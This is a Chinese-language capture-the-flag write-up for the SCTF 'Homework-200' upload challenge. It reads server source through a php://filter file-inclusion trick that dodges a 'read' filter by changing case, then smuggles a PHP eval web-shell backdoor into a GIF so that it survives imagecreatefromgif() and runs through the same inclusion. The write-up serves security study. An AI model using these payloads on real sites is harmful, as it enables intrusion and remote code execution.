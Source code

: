 ##pt &nbsp; &nbsp;Homework-200 （文件上传类题目）  
####解题过程：
*  先使用'php://filter/read=convert.base64-encode/resource='语句读取登录页面reg.php源码。   
将homework.sctf.xctf.org.cn/homework.php?homework=homework.txt改为homework.sctf.xctf.org.cn/homework.php?homework=php://filter/read=convert.base64-encode/resource=reg.php  发现不行，:-( 反馈为 plz don't read my code， 猜测应该是过滤了read,想办法绕过，尝试Read,顺利读出reg.php的base64格式。[∩_∩]  解码后如下：   
```  
    <html>
    <meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
    </html>
    <?php
    include('./config.php');
    session_start();
    function make_password()
    {
    	$password="";
    	$chars="abcdefghijklmnopqrstuvwxyz1234567890-=!@#$%^&*_";
    	for($i=0;$i<8;$i++)
    	{
    		$password.=$chars[rand(0,46)];
    	}
    	return $password;
    }
    
    if(isset($_POST['captcha_code'])){
    	// code for check server side validation
            $captcha_code = (string)$_POST['captcha_code'];
    	if(empty($_SESSION['captcha_code'] ) || strcasecmp($_SESSION['captcha_code'], $captcha_code) != 0){  
    		 exit('验证码错误');
    	}else{// Captcha verification is Correct. Final Code Execute here!		
    		
    	}
    } else {
    	exit('Get out!');
    }
    //unset($_SEESION['captcha_code']);
    session_destroy();
    if(isset($_POST['upload'])){
    $filename = $_FILES['uploaded']['name'];
    $filetype = $_FILES['uploaded']['type'];
    $filesize = $_FILES['uploaded']['size'];
    $tmpname = $_FILES['uploaded']['tmp_name'];
    $uploaddir = './upload/';
    $target_path = $uploaddir.basename($filename);
    $fileext = substr(strrchr($filename,"."),1);
    if(($fileext == 'gif')&&($filetype == "image/gif")){
    	{
    		if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	}
    	$im =imagecreatefromgif($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".gif";
    	$newimagepath = $uploaddir.$newfilename;
    	imagegif($im,$newimagepath);
    	unlink($target_path);
    }else if(($fileext == 'jpg')&&($filetype == "image/jpeg"))
    {
    	if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	$im =imagecreatefromjpeg($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".jpg";
    	$newimagepath = $uploaddir.$newfilename;
    	imagejpeg($im,$newimagepath);
    	unlink($target_path);
    }else if (($fileext=='png')&&($filetype=="image/png"))
    {
    	if(move_uploaded_file($tmpname,$target_path))
    		{
    		}
    	$im =imagecreatefromjpeg($target_path);
    	srand(time());
    	$newfilename = strval(rand()).".png";
    	$newimagepath = $uploaddir.$newfilename;
    	imagejpeg($im,$newimagepath);
    	unlink($target_path);
    }
    }
    if(isset($_POST['name'])&&isset($_POST['age']))
    {
    	$name=substr($_POST['name'],0,6);
    	$age=intval($_POST['age']);
    	$username=file_get_contents('./id.txt');
    	$password=make_password();
    	file_put_contents('./id.txt',intval($username)+1);
    	mysql_query("insert into info(username,password,name,pic,age)values('$username',md5('$password'),'$name','$newimagepath',$age)");
    	mysql_close($con);
    	print("生成成功，学号:$username,密码：$password");
    	print("<a href='./index.html'>回主页</a>");
    }
    ?>
```
*  然和呢，发现这题主要是绕过createimagefromgif()函数    
想到这个知识点：https://www.secgeek.net/bookfresh-vulnerability/     
先尝试了jpg、png、gif格式的图片，发现只有gif可以，接下来如何构造自己嵌入了php代码的gif图片呢？   
文章中提到的方法是：取gif图片，经过createimagefromgif()后得到处理后的图片，将前图与后图对比，找到没有被替换的data，然后把这部分替换成自己需要的PHP代码：<?eval($_POST[2])?> 留作后门   
这张图乜放进来，便于大家尝试  
![示例图片](img/heng.gif)
上传成功后在网页上输出经过处理后的和自己上传的那张一模一样的图片，在当前目录下查看这张图片: homework.sctf.xctf.org.cn/homework.php?homework=./upload/1305771078.gif或者homework.sctf.xctf.org.cn/homework.php?homework=upload/1305771078.gif
网页上出现一堆怪异的字符，然后留的后门就有用啦  
推荐firefox下一个非常好用的插件hackbar  
![图片1](img/1.png)  
![图片2](img/2.png)  
![图片3](img/3.png)  
  
###收获总结  
1.  在某些情况下使用php://filter/read=convert.base64-encode/resource=方法查看php源代码  
 问：在什么情况下可以这么干呢  
 当这个某个url中有参数时，即get文件时，可以将参数值替换成php://filter/read=convert.base64-encode/resource=想要的.php,本来是要get到页面所指定的文件，但由于我们的替换和原本代码的不安全，使得有些情况下可以成功的读到php源代码*^_^* 
2.  get到一个php中不安全的函数imagecreatefromgif()   
 相应的解决办法：取gif图片，经过createimagefromgif()后得到处理后的图片，将前图与后图对比，找到没有被替换的data，然后把这部分替换成自己需要的PHP代码：<?eval($_POST[2])?>（你想要实现的语句）  
  
###启示   
 学习和平时刷题时，注意积累PHP中容易出安全问题的函数，并记下为什么出安全问题，以及怎样解决。  
  这样，以后在做PHP相关的题型时，根据代码便可快速知道是什么地方出了问题，然后找到对策。   
  另外，即使不能获取到源代码，由于积累，也可大概判断是什么函数导致安全故障。

